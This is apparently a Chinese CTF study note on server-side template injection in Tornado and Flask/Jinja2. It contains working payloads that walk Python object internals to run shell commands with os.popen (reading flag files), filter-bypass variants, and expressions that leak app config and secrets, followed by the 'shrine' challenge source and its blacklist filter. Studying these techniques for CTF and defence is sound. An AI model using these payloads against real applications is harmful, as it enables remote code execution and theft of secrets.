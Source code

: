 ### SSTI 服务端模板注入

一般在题目中遇到python语言就是SSTI的题



### Tornado框架下

#### tornado render模板注入

​	tornado render是python中的一个渲染函数，也就是一种模板，通过调用的参数不同，生成不同的网页，如果用户对render内容可控，不仅可以注入XSS代码，而且还可以通过{{}}进行传递变量和执行简单的表达式

```
error?msg={{handler.settings}}
```

#### secret_cookie

tornado框架下：**secret_cookie在Application对象settings的属性中**

**self.application.settings=RequestHandler.settings=handler.settings**

### Flask框架

#### flask基础

``` python
from flask import flask 
@app.route('/index/')#route装饰器的作用是将函数与url绑定起来
def hello_word():
    return 'hello word'
```

**render_template_string则是用来渲染一个字符串的。SSTI与这个方法密不可分。**

```python
html = '<h1>This is index page</h1>'
return render_template_string(html)
```

**flask是使用Jinja2来作为渲染引擎的**。看例子

在网站的根目录下新建`templates`文件夹，这里是用来存放html文件。也就是模板文件。

test.py

```python
from flask import Flask,url_for,redirect,render_template,render_template_string
@app.route('/index/')
def user_login():
     return render_template('index.html',content='This is index page.')
```

/templates/index.html

```html
<h1>{{content}}</h1>
```

#### 注入的产生

**在Jinja2模板引擎中，`{{}}`是变量包裹标识符。`{{}}`并不仅仅可以传递变量，还可以执行一些简单的表达式。**

有如下代码：

```python
@app.route('/test/')
def test():
    code = request.args.get('id')
    html = '''
        <h3>%s</h3>
    '''%(code)
    return render_template_string(html)
```

这里code就会接到html里面被jinja2渲染，如果用户提交恶意代码就会被执行

#### 注入利用

[各种注入姿势](https://zhuanlan.zhihu.com/p/93746437)

一般的思路是：通过一些提供的魔术方法，然后经过对象的继承原理来实现命令执行和文件读取

下面有一些主要的魔术方法

```python
__class__  返回类型所属的对象
__mro__    返回一个包含对象所继承的基类元组，方法在解析时按照元组的顺序解析。
__base__   返回该对象所继承的基类
// __base__和__mro__都是用来寻找基类的

__subclasses__   每个新类都保留了子类的引用，这个方法返回一个类中仍然可用的的引用的列表
__init__  类的初始化方法
__globals__  对包含函数全局变量的字典的引用
```



**进行命令的执行的模块：os**

**可以进行命令执行的的函数：os.system()，os.popen()**

**前者返回值是脚本的退出状态码，后者的返回值是脚本执行过程中的输出内容**

一些命令执行构造：

```jinja2
{{''.__class__.__mro__[2].__subclasses__()[71].__init__.__globals__['os'].popen('ls').read()}}
#包含特殊字符的绕过方式
︷︷config.__class__.__init__.__globals__[＇os＇].popen(＇cat /flag＇).read()︸︸
#大小写绕过
{{""["__CLASS__".lower()]["__MRO__".lower()][2]["__SUBCLASSES__".lower()]()[71]["__INIT__".lower()]["__GLOBALS__".lower()]['os']["POPEN".lower()]["('CAT /opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')".lower()]}}
#使用request.args绕过
{{''[request.args.a][request.args.b][2][request.args.c]()[40]('/opt/flag_1de36dff62a3a54ecfbc6e1fd2ef0ad1.txt')[request.args.d]()}}?a=__class__&b=__mro__&c=__subclasses__&d=read
```

**获取当前配置信息**：

```jinja2
{{config}}
{{self.__dict__._TemplateReference__context.config}}
#如果上面提到的 config、self 不能使用，要获取配置信息，就必须从它的全局变量（访问配置 current_app 等）
{{url_for.__globals__['current_app'].config.FLAG}}
{{get_flashed_messages.__globals__['current_app'].config.FLAG}}
{{request.application.__self__._get_data_for_json.__globals__['json'].JSONEncoder.default.__globals__['current_app'].config['FLAG']}}
```

### 题目

#### shrine

进入环境后直接就是一段python写的后端代码，为flask框架，可以直接先考虑SSTI

```python
import flask
import os

app = flask.Flask(__name__)

app.config['FLAG'] = os.environ.pop('FLAG')


@app.route('/')
def index():
    return open(__file__).read()

@app.route('/shrine/<path:shrine>')
def shrine(shrine):

    def safe_jinja(s):
        s = s.replace('(', '').replace(')', '')
        blacklist = ['config', 'self']
        return ''.join(['{{% set {}=None%}}'.format(c) for c in blacklist]) + s

    return flask.render_template_string(safe_jinja(shrine))

if __name__ == '__main__':
    app.run(debug=True)
```

可以看到在safe_jinja函数中，对小括号进行了过滤，说明不能调用`__subclasses__[]()`函数进行操作，对config,self进行了过滤
